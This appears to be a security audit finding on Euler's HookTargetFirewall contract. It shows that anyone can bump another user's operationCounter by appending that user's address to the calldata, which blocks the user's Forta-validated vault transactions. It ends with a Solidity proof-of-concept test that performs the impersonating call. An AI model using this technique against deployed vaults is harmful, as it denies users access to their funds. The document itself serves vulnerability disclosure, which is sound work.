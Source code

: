The `operationCounter` is used to validate a transaction. It will revert if it doesn't match the transaction validated by the Forta endpoint. By increasing another user's `operationCounter`, a malicious actor can block that user from interacting with the vault.

#### Technical Details

The `HookTargetFirewall` contract implements multiple external functions that anyone can call. The vaults are supposed to call these functions as hooks.

When one these functions is called, they call the internal function [`executeCheckpoint()`](https://github.com/euler-xyz/evk-periphery/blob/52a2572ed6f23fa4e0b293d0cc2d77d8ce7f1f8c/src/HookTarget/HookTargetFirewall.sol#L296-L296). The function will first increase the `operationCounter` and `accumulatedAmount` for the user then if the `amount` of the transaction is bigger than the set thresholds for the vault it will trigger a call to the Forta validator.

The `operationCounter` will be passed with other parameters. It is in charge of protecting against replay attacks, as each transaction will have to have been confirmed by the Forta endpoint with a specific `operationCounter` prior to the transaction execution. It additionally enforces that transactions are executed in the order they were approved.

The hook will use the last 20 bytes passed inside the calldata to determine the user. This is how the vaults created with the EVK pass the initial caller to the hook.

The hook doesn't enforce that the address calling it is a registered vault created with the EVK with set thresholds. This allows any user to call it with someone else address as the last 20bytes, increasing the `operationCounter` for that user.

If a user is executing a transaction that requires Forta validation, by changing the user's `operationCounter`, the attacker can invalidate the validation from the Forta endpoint and cause the user's transaction to revert.

POC:

```solidity
// SPDX-License-Identifier: GPL-2.0-or-later

pragma solidity ^0.8.23;

import {EVaultTestBase} from "evk-test/unit/evault/EVaultTestBase.t.sol";
import {HookTargetFirewall} from "../../src/HookTarget/HookTargetFirewall.sol";

contract HookTargetGuardianTests is EVaultTestBase {

    HookTargetFirewall firewallHook;

    function setUp() public virtual override {
        super.setUp();
        firewallHook = new HookTargetFirewall(address(evc), address(0), bytes32(0));
    }

    function test_ImpersonateCall() public {
        address caller = address(123);
        bytes memory call = abi.encodeWithSelector(firewallHook.deposit.selector, uint256(0), address(0));

        //call
        (bool success, bytes memory data) = address(firewallHook).call(abi.encodePacked(call, caller));
        (uint256 response) = abi.decode(data, (uint256));
        assertEq(success, true); //call succeeded
        assertEq(response, 0); //call succeeded

        //storage was updated
        uint256 counter = uint256(vm.load(address(firewallHook), 0xa6eef7e35abe7026729641147f7915573c7e97b47efa546f5f6e3230263bcb49)); //operationCounters[caller]
        assertEq(counter, 1);
    }
```